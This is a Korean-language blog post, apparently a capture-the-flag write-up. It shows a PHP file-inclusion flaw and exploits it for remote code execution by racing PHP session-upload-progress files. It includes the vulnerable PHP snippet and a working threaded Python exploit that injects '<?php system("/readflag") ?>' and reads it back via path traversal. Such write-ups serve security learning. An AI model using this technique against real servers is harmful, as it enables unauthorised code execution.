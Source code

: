 ```yaml
---
layout: post
date: 2023-06-12
title: 블로그 테스트
tags: [태그테스트, ]
categories: [qwer, ]
---
```


### 취약점 분석


먼저 제공된 파일 중 `index.php`을 보면 GET 파라미터로 넘어온 값을 include 한다는 것을 알 수 있다.


```php
<?php
    $page = $_GET[‘page’];
    if(isset($page)){
        include(“./data/“.$page);
    } else {
        header(“Location: /?page=1”);
    }
?>

```


이를 통해 LFI 취약점을 트리거 할 수 있는데, php 내용을 어디에 쓸 수 있을 지가 고민이었다.


`www.conf`의 내용을 보면 `session.upload_progress.enabled`가 1로 설정되어 있으므로, `PHP_SESSION_UPLOAD_PROGRESS`를 통해 php 코드를 업로드 할 수 있다.


```text
[www]
user = www-data
group = www-data
listen = /run/php/php7.4-fpm.sock
listen.owner = www-data
listen.group = www-data
pm = dynamic
pm.max_children = 48
pm.start_servers = 16
pm.min_spare_servers = 8
pm.max_spare_servers = 16
php_admin_value[session.upload_progress.enabled] = 1
php_admin_value[memory_limit] = 32M
php_admin_value[max_execution_time] = 10s
php_admin_value[opcache.enable] = 0
request_terminate_timeout = 15s

```


`session.upload_progress.enabled`옵션은 php 내부에서 업로드 중인 개별 파일의 진행률을 추적하기 위해 사용된다.
해당 옵션이 켜져있으면 `session_start` 함수 없이도 세션 파일을 생성할 수 있으므로 세션 파일을 통해 RCE를 진행할 수 있다.


다만, 해당 문제에서는 `session.upload_progress.cleanup` 옵션이 활성화 되어 있으므로 세션 파일이 바로 삭제된다. 하지만 크기가 큰 파일을 보내고, Race Condition을 통하면 세션 파일을 읽을 수 있다.


### 익스플로잇


```python
import requests
import threading

SERVER = False
url = '<http://localhost:8080>' if not SERVER else "<http://20.196.197.149:8000>"


def read_session():
    while True:
        res = requests.get(
            url + "/?page=../../../../../../../../../../var/lib/php/sessions/sess_lourcode")
        if len(res.text) != 0:
            print(res.text)

def write_session():
    while True:
        res = requests.post(url, files={'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag") ?>'), 'file': ('lourcode', 'lourcode' * 0x300, 'application/octet-stream', {
                            'Expires': '0'})}, cookies={'PHPSESSID': 'lourcode'})



read = threading.Thread(target=read_session)
read.start()

write = threading.Thread(target=write_session)
write.start()

```


[image:BF4E11C0-56E2-463F-91C2-2085533113FA-849-000003005BCC1DBF/스크린샷 2023-06-12 오전 1.06.36.png]
플래그를 획득하였다.


